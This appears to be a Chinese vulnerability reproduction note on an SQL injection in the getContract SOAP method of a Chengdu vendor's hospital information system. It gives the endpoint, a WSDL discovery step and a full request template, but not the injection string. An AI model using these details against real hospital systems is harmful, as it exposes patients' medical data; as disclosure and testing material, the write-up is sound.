 # 成都信通网易医疗科技发展有限公司HIS系统getContract存在SQL注入漏洞

# 一、漏洞简介
成都信通网易医疗科技发展有限公司总部位于四川成都高新区天府软件园，在国内医疗软件行业中率先采用Java技术，融入国际国内标准，整体设计，持续研发，先后形成了“智慧云医院信息平台”、“医共体信息平台”、“互联网医院平台”、“医养融合信息平台”等新一代一系列自主知识产权产品，全面覆盖了单体医院业务、区域医疗、医共体、“互联网+健康”等信息化建设领域。成都信通网易医疗科技发展有限公司HIS系统getContract存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 成都信通网易医疗科技发展有限公司HIS系统（基于电子病历的医院信息化平台）

# 三、特征
![1700650007533-e9496b7e-969f-4370-b652-44a251239e7b.png](./img/KK9xFI075kSNF6Fs/1700650007533-e9496b7e-969f-4370-b652-44a251239e7b-375656.png)

# 四、漏洞复现
1. 漏洞位置

在下列`nzzManager`接口下的`getContract`参数

```plain
/xtHisService/services
```

![1700650622367-8e26144c-93e3-4609-8b3c-3d4d0c6aefbf.png](./img/KK9xFI075kSNF6Fs/1700650622367-8e26144c-93e3-4609-8b3c-3d4d0c6aefbf-255827.png)

2. 使用burp抓包，使用wsdl插件解析

```plain
/xtHisService/services/nzzManager?wsdl
```

[wsdler.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222128291-9f1e688c-83d7-4634-9a48-af60d6d18b6e.jar)![1700650603699-766cdcf1-430c-4376-a4a0-6ef8acf31042.png](./img/KK9xFI075kSNF6Fs/1700650603699-766cdcf1-430c-4376-a4a0-6ef8acf31042-159137.png)

3. 数据包

```plain
POST /xtHisService/services/nzzManager HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0A4C07C0C8A7CFF9A03AD7B586FFCBBE
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: xx.xx.xx.xx
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:imp="http://imp.nzz.ws.manager.cdxt.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <imp:getContract>
         <!--type: string-->
         <arg0>gero et</arg0>
      </imp:getContract>
   </soapenv:Body>
</soapenv:Envelope>
```

![1700650531584-d9202bd2-3b4c-4680-8f6f-540bbd12bd17.png](./img/KK9xFI075kSNF6Fs/1700650531584-d9202bd2-3b4c-4680-8f6f-540bbd12bd17-060263.png)



> 更新: 2024-02-29 23:55:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tn4e1b9rtiep13x8>
